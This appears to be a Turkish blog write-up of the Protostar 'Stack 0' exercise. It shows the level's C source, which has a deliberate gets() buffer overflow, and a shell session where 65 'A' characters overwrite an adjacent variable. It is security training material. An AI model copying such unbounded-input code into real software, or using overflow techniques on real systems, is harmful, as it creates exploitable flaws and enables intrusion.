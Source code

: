 ```yaml
---
layout: post
title:  "Protostar Stack Writeup"
date:   2020-11-29 16:27:00 +0300
categories: Binary Exploitation
---
```


# Protostar Stack Writeup
`Ön tavsiye`: bu yazıyı okumadan önce stack nedir ve nasıl çalışır, fonksiyon çağrıları nasıl olur, register nedir ne iş yapar gibi kavram ve konular hakkında ufaktan bi fikrinizin olması faydalı olacaktır.

Öncelikle protostar makinesini indirip sanal makine olarak kurmanız gerekmekte, ardından ssh ile makineye bağlanabilirsiniz. soruların binary dosyaları /opt/protostar/bin/ dizini altında yer almakta. Başlayalım :)
## Stack 0

Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
Bu aşamada amacımız if bloğunda yer alan başarı mesajını ekrana bastırabilmek. Bu bloğun öncesinde `modified` isminde bir değişken ve 64 byte boyutunda bir buffer(dizi) tanımlamış. `modified` değişkenine 0 atamış, biizm amacımız bunun üzerine yazıp mesajı bastırmak.
```bash
user@protostar:/opt/protostar/bin$ ./stack0
AAAAAAAAAAA
Try again?
user@protostar:/opt/protostar/bin$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again?
user@protostar:/opt/protostar/bin$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
```
Gördüğünüz gibi 64 adet A karakteri verdiğimizde buffer normal bir şekilde doluyor ancak 64'ten fazla vermeye başladığımız anda kendi alanımızı taşırıp bizden hemen önce stackte yer edinen modified değişkenine yazmaya başladık ve sonuç olarak mesajı ekrana yazdırdık.
